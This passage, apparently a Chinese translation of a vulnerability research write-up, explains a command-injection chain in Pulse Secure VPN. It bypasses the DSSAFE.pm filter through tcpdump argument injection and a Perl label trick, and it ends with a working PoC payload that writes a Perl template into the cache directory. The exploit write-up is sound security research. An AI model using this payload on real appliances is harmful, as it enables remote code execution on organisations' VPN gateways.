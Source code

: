 从代码片段中，可以看到它替换原始system片段并进行大量__parsecmd检查，它还会阻止许多危险输入，例如：

```
[&amp;*()`{``}`[]`;|?n~&lt;&gt;]
```

检查非常严格，因此我们无法执行任何命令注入，我们设想了几种绕过它的方法，我想到的第一件事就是参数注入。

我们列出了TCPDUMP支持的所有参数，并发现-z postrotate-command可能会有用。但令人遗憾的是，TCPDUMP只对

Pulse Secure（v3.9.4，2005年9月）支持这个功能，所以我们失败了:(

在检查系统时，我们发现虽然webroot是只读的，但可以仍然利用.Pulse Secure缓存机制的/data/runtime/tmp/tt/缓存模板以加速脚本输出。

所以我们下一步尝试是通过-w write-file参数将文件写入模板缓存目录。但是，似乎不可能在PCAP和PCAP中编写多语言文件。

我们试图深入研究DSSFAFE.pm的实现，看看是否有任何可以利用的东西。在这里，我们在命令行解析器中发现了一个问题。如果插入不完整的I / O重定向，则重定向部分的其余部分将被截断。虽然这是一个小小的bug，但它帮助我们重新控制了I / O重定向！但是，无法生成有效Perl脚本的问题仍然困扰着我们。

我们被困在这里，很难生成有效的Perl脚本`STDOUT`，可以只编写Perl `STDERR`吗？确实可以，当通过`TCPDUMP` -r read-file读取不存在的文件时，它显示如下错误：

> tcpdump: [filename]: No such file or directory

看来我们可以部分地控制错误信息，然后我们尝试了文件名`print 123#`，神奇的事情发生了！

```
$ tcpdump -d -r 'print 123#'
  tcpdump: print 123#: No such file or directory

$ tcpdump -d -r 'print 123#' 2&gt;&amp;1 | perl –
  123

```

错误消息现在变为有效的Perl脚本，为什么会这样？

[![](https://p5.ssl.qhimg.com/t017a00aa51d26fc0b2.png)](https://p5.ssl.qhimg.com/t017a00aa51d26fc0b2.png)

Perl支持GOTO标签，因此tcpdump:`成为了Perl中的有效标签，然后，用标签对其余部分进行comment，有了这个技巧，我们现在可以生成任何有效的Perl脚本！

最后，我们使用不完整的I / O符号`&lt;`来欺骗`DSSAFE.pm`命令解析器并将其重定向`STDERR`到缓存目录中！

这是最终的漏洞利用PoC：

```
-r$x="ls /",system$x# 2&gt;/data/runtime/tmp/tt/setcookie.thtml.ttc &lt;
```

连接命令如下所示：

```
/usr/sbin/tcpdump -d 
 -r'$x="ls /",system$x#'
 2&gt;/data/runtime/tmp/tt/setcookie.thtml.ttc &lt; 
 &gt;/dev/null
 2&gt;&amp;1
```

生成的`setcookie.thtml.ttc`内容如下：

```
tcpdump: $x="ls /",system$x#: No such file or directory
```
